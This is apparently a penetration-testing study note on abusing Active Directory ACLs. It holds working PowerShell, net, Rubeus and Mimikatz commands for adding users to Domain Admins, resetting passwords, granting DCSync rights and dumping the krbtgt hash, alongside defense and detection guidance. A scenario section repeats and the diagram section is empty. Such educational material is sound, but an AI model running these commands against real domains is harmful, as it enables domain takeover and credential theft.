

# 36.17 ACL Abuse

## 1. Introduction & Theory
Access Control Lists (ACLs) form the foundational security model for Active Directory. Every object in AD (Users, Computers, Groups, OUs, Domain Root) possesses a **Security Descriptor**. This descriptor contains two critical lists:
- **SACL (System Access Control List):** Used for auditing and logging access attempts.
- **DACL (Discretionary Access Control List):** Defines who has access to the object and what operations they can perform.

The DACL is made up of individual **ACEs (Access Control Entries)**. Each ACE links a security principal (like an attacker-controlled user) to a set of permissions (like Read, Write, Full Control) over the target object.

In complex, long-standing AD environments, permissions are frequently modified by helpdesk staff, administrators, and automated software installations (like Exchange). Over time, this leads to **ACL decay**—misconfigured permissions that grant excessive rights to unintended users. Attackers abuse these misconfigurations to escalate privileges, move laterally, or establish persistence without needing an exploit or memory corruption vulnerability.

## 2. ASCII Diagram of Attack Flow



## 3. Attack Mechanics & Dangerous Rights

When an attacker maps an AD environment using tools like BloodHound, they look for specific, dangerous ACEs. 

### Critical Permissions:
1. **GenericAll (Full Control):** The principal has complete control over the target object. If the target is a user, the attacker can change their password. If the target is a group, the attacker can add themselves to it.
2. **GenericWrite:** Grants the ability to write to any non-protected attribute of the target object. Attackers often use this to write SPNs for Kerberoasting or modify `msDS-AllowedToActOnBehalfOfOtherIdentity` for RBCD.
3. **WriteDacl:** Grants the ability to modify the DACL of the target object. An attacker with `WriteDacl` can simply grant themselves `GenericAll` and take full control.
4. **WriteOwner:** Grants the ability to change the owner of the target object. Once an attacker is the owner, they inherently gain `WriteDacl` rights, allowing them to grant themselves `GenericAll`.
5. **ForceChangePassword:** A specific extended right that allows the principal to reset the target user's password without knowing their current password.
6. **AddMembers:** The ability to add objects to a target group.

## 4. Enumeration
The standard toolset for mapping and identifying ACL abuse opportunities includes **BloodHound** and **PowerView**.

**Collecting Data with SharpHound:**
```bash
# Run SharpHound on a compromised domain-joined machine
Invoke-BloodHound -CollectionMethod All
```
Once imported into BloodHound, you can run built-in queries like "Find Shortest Paths to Domain Admins" to visually trace how standard users can escalate via ACLs.

**Enumerating with PowerView:**
If you want to manually inspect the ACLs of the `Domain Admins` group:
```powershell
Get-ObjectAcl -Identity "Domain Admins" -ResolveGUIDs | Where-Object { $_.ActiveDirectoryRights -match "GenericAll|WriteDacl" }
```

## 5. Execution

Here are the specific execution methodologies for the most common ACL abuses using PowerView or native tools.

### Scenario A: Exploiting GenericAll or AddMembers on a Group
If your compromised user has `GenericAll` or `AddMembers` over a highly privileged group (e.g., `Domain Admins`), you simply add yourself to it.
```powershell
# Using net command
net group "Domain Admins" attacker_user /add /domain

# Using PowerView
Add-DomainGroupMember -Identity "Domain Admins" -Members "attacker_user"
```

### Scenario B: Exploiting ForceChangePassword on a User
If you have `ForceChangePassword` over a target user (e.g., an IT Admin account), you can reset their password to a known value, effectively taking over the account. *Note: This is noisy and destructive as it locks the legitimate user out.*
```powershell
# Using PowerView
Set-DomainUserPassword -Identity target_admin -AccountPassword "PwnedPassword123!"
```
Alternatively, you can use `net user`:
```cmd
net user target_admin PwnedPassword123! /domain
```

### Scenario C: Exploiting WriteDacl on an Object
If you have `WriteDacl` over a target object, you cannot perform malicious actions directly. You must first update the DACL to grant yourself `GenericAll`.
```powershell
# Using PowerView to add GenericAll for our attacker_user
Add-DomainObjectAcl -TargetIdentity "target_admin" -PrincipalIdentity "attacker_user" -Rights All
```
Once the command completes, you now have `GenericAll` and can proceed to reset the password or manipulate the object.

### Scenario D: Exploiting GenericWrite on a User (Targeted Kerberoasting)
If you have `GenericWrite` on a target user, you can set a Service Principal Name (SPN) on that user. This makes the user vulnerable to Kerberoasting.
```powershell
# Using PowerView to write a fake SPN
Set-DomainObject -Identity target_admin -Set @{serviceprincipalname='attack/fake'}

# Now request the TGS ticket for offline cracking (Rubeus)
Rubeus.exe kerberoast /user:target_admin /nowrap
```

## 6. Defense & Hardening

Defending against ACL abuse is primarily an exercise in configuration management and auditing.
- **AdminSDHolder and SDProp:** Active Directory includes a background process (SDProp) that runs every 60 minutes. It takes the ACL defined on the `AdminSDHolder` container and applies it to all highly privileged built-in groups and users (e.g., Domain Admins, Enterprise Admins, Print Operators). Ensure the `AdminSDHolder` ACL is pristine, as any malicious ACE here will be propagated domain-wide.
- **Regular BloodHound Audits:** Defenders should proactively run BloodHound (or internal enterprise equivalents) to identify and remediate excessive permissions.
- **Delegation Models:** Use strict OUs and Role-Based Access Control (RBAC). Do not grant generic rights; grant only specific extended rights required for a job function.

## 7. Detection Strategies
Monitoring for ACL abuse involves looking for anomalous directory changes.
- **Event ID 4738:** A user account was changed. This triggers when passwords are reset (`ForceChangePassword`) or SPNs are added (`GenericWrite`).
- **Event ID 4732 / 4728:** A member was added to a security-enabled local/global group. Monitor for unexpected additions to privileged groups.
- **Event ID 5136:** A directory service object was modified. If Directory Service Access auditing is enabled, this event tracks modifications to DACLs (`WriteDacl`), capturing the exact ACE that was added.

## Real-World Attack Scenario

During an internal penetration test for a manufacturing company, the assessment team started with a low-privileged user account in the `IT_Helpdesk` group. The initial goal was to escalate privileges to Domain Admin without utilizing known CVEs.

**The Context**
The team utilized BloodHound to map the Active Directory environment. A custom query revealed a critical misconfiguration: the `IT_Helpdesk` group had `GenericAll` (Full Control) permissions over the `Server_Admins` security group. Furthermore, the `Server_Admins` group had `WriteDacl` permissions over the domain root object.

**The Execution**
1.  **Group Membership Modification:** Since the attacker's account (`jsmith`) was in the `IT_Helpdesk` group, they inherently possessed `GenericAll` over the `Server_Admins` group. They used PowerView to add themselves to this group.
    `Add-DomainGroupMember -Identity "Server_Admins" -Members "jsmith"`
2.  **Updating the Session:** To make the new group membership active, the attacker needed a new Kerberos TGT. They accomplished this by logging off and back on, or by requesting a new ticket using Rubeus.
3.  **Abusing WriteDacl:** Now operating as a member of `Server_Admins`, the attacker had `WriteDacl` rights over the domain root. They utilized PowerView to grant their account the rights necessary for a DCSync attack (`DS-Replication-Get-Changes` and `DS-Replication-Get-Changes-All`).
    `Add-DomainObjectAcl -TargetIdentity "DC=domain,DC=local" -PrincipalIdentity "jsmith" -Rights DCSync`
4.  **The Outcome:** With the DCSync rights successfully added to the domain root DACL, the attacker immediately launched Mimikatz to DCSync the `krbtgt` hash, allowing them to forge a Golden Ticket and achieve complete, stealthy domain compromise.

## 8. Chaining Opportunities
- **[[21 - Resource-Based Constrained Delegation (RBCD)]]:** Requires `GenericWrite` over a computer object to manipulate the `msDS-AllowedToActOnBehalfOfOtherIdentity` attribute.
- **[[15 - DCSync Attack]]:** Requires `WriteDacl` or `GenericAll` over the domain root object to grant the attacker `DS-Replication-Get-Changes`.
- **[[13 - LDAP Relay]]:** LDAP relay attacks are frequently used to abuse ACLs when the attacker does not directly possess the necessary rights, but the relayed machine account does.

## 9. Related Notes
- [[22 - Active Directory Enumeration]]
- [[19 - Kerberoasting]]

## Real-World Attack Scenario
## 10. Real-World Attack Scenario

During an internal penetration test for a manufacturing company, the assessment team started with a low-privileged user account in the `IT_Helpdesk` group. The initial goal was to escalate privileges to Domain Admin without utilizing known CVEs.

**The Context**
The team utilized BloodHound to map the Active Directory environment. A custom query revealed a critical misconfiguration: the `IT_Helpdesk` group had `GenericAll` (Full Control) permissions over the `Server_Admins` security group. Furthermore, the `Server_Admins` group had `WriteDacl` permissions over the domain root object (`DC=domain,DC=local`). 

**The Execution**
1.  **Group Membership Modification:** Since the attacker's account (`jsmith`) was in the `IT_Helpdesk` group, they inherently possessed `GenericAll` over the `Server_Admins` group. They used PowerView to add themselves to this group:
    ```powershell
    Add-DomainGroupMember -Identity "Server_Admins" -Members "jsmith"
    ```
2.  **Updating the Session:** To make the new group membership active, the attacker needed a new Kerberos TGT. They accomplished this by logging off and back on, or by requesting a new ticket using Rubeus.
3.  **Abusing WriteDacl:** Now operating as a member of `Server_Admins`, the attacker had `WriteDacl` rights over the domain root. They utilized PowerView to grant their account (`jsmith`) the rights necessary for a DCSync attack (`DS-Replication-Get-Changes` and `DS-Replication-Get-Changes-All`):
    ```powershell
    Add-DomainObjectAcl -TargetIdentity "DC=domain,DC=local" -PrincipalIdentity "jsmith" -Rights DCSync
    ```
4.  **The Outcome:** With the DCSync rights successfully added to the domain root DACL, the attacker immediately launched Mimikatz to DCSync the `krbtgt` hash, allowing them to forge a Golden Ticket and achieve complete, stealthy domain compromise.
    ```text
    mimikatz # lsadump::dcsync /domain:domain.local /user:krbtgt
    ```

